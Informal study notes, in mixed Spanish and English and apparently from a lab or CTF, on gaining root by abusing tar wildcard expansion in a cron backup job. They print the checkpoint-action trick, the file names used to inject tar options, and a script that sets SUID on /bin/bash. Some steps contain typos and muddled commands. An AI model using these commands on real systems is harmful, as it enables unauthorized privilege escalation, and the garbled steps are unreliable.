 
**- Abusing Wildcards (tar command) [Privilege Escalation]**

***Las wildcards o comodines son **una serie de caracteres especiales que nos permiten encontrar patrones o realizar búsquedas más avanzadas**. Es aplicable para archivos y directorios.***


hace un backup en backupfiles e incluye todo lo que hay en el directorio, en var bacukps +hostname +day, crea un comprimido tar..
dice que jugar con los "wildcats no es una buena idea" porque tar o cualquier comando... (?)... dice que toma como parametro una carpeta con un nombre de un comando... ej
```
 kali >touch -l

 kali >ls -l
 -l

kali ls *
 -l
```
so, aparently this is a problem , we can execute a shell if we use tar
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
but if i do this I will still being "server-manadgement"
i must create an archive called
```
touch -- --checkpoint=1
touch -- --checkpoint-action=exec='sh command'
```
so, if i do this "root" take this as "tar parameters"... so if i do an archive called:
```
touch command
chmod +x command
nano command ^C
ls -l /bin/bash
```
Revisa otra vez todo, pero creo que funciona asi... como a cada rato se esta ejecutando este backup , yo puedo abusar de que tar interprete eso como sudo... entonces aparentemente ese comando que pusimos fue un script 

This is what is inside of the archive caled "command"
```
!#/bin/bash

chmod u+s /bin/bash
```


we monitore it with 
```
watch -n 1 ls -l /bin/bash
```
the permissions was first
-rwxr-xr-x root root
and changed to
-rwsr-xr-x
